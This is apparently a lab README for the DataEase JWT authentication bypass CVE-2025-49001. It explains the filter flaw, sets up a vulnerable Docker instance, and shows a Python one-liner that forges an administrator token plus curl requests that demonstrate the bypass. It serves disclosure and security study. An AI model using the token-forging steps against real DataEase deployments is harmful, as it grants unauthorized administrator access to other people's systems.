


# DataEase JWT Authentication Bypass (CVE-2025-49001)

[中文版本(Chinese version)](README.zh-cn.md)

DataEase is an open-source data visualization and analysis platform widely used for building BI dashboards.

In DataEase versions up to 2.10.10, a flaw in the JWT validation logic of `CommunityTokenFilter` lets an unauthenticated attacker forge an administrator token using any secret. When the HMAC signature verification throws `SignatureVerificationException`, the filter only writes a 401 body and logs the error — it still calls `filterChain.doFilter(...)`, so the request reaches the downstream controller carrying the attacker-supplied `uid` and `oid` claims. Because the upstream `TokenFilter` populated the user context by merely decoding the JWT (without verifying its signature), the controller executes the business logic as `uid=1`, the administrator. This defect can be chained with CVE-2025-32966 to achieve unauthenticated remote code execution via the datasource validation endpoint.

References:

- <https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-49001>
- <https://github.com/dataease/dataease/security/advisories/GHSA-h7hj-4j78-cvc7>

## Environment Setup

Execute the following command to start a vulnerable DataEase 2.10.7 instance:

```
docker compose up -d
```

After the server starts, the DataEase login page is available at `http://your-ip:8100`.

## Vulnerability Reproduction

First, establish the baseline behavior of the `user/info` endpoint. Without any token, the filter rejects the request at the earliest stage and returns a clean `401` that explicitly names the missing header:

```
$ curl -sS -D - http://your-ip:8100/de2api/user/info
HTTP/1.1 401
...
{"code":401,"msg":"token is empty for uri {/de2api/user/info}","data":null}
```



Next, forge an administrator JWT using any HMAC secret. Because `CommunityTokenFilter` catches the signature-verification exception without aborting the chain, the secret never has to match the server's real key:

```
python3 -c "import jwt,time; print(jwt.encode({'uid':1,'oid':1,'exp':int(time.time())+3600}, 'any-secret-will-do', algorithm='HS256'))"
```

Resend the request with the forged token and watch both the status line and the response headers:

```
$ curl -sS -D - -H "X-DE-TOKEN: <forged-jwt>" http://your-ip:8100/de2api/user/info
HTTP/1.1 400
...
DE-GATEWAY-FLAG: The%20Token%27s%20Signature%20resulted%20invalid%20when%20verified%20using%20the%20Algorithm%3A%20HmacSHA256
...
{"code":400,"msg":"Request processing failed: java.lang.IllegalStateException: getWriter() has already been called for this response","data":null}
```



Notice that the status code is `400` rather than the earlier `401` — that alone is enough to show the signature-verification logic has been bypassed.

> Why does the bypass still produce a `400` response instead of a `200`?
>
> At the HTTP protocol layer, `CommunityTokenFilter` has already claimed the response Writer by writing its 401 body, so even though the downstream controller successfully runs as the administrator, it can no longer emit a clean data packet. That is why this path can only expose a `400` instead of a `200` — but the absence of a `401` is itself sufficient proof that the attacker's forged token was accepted.
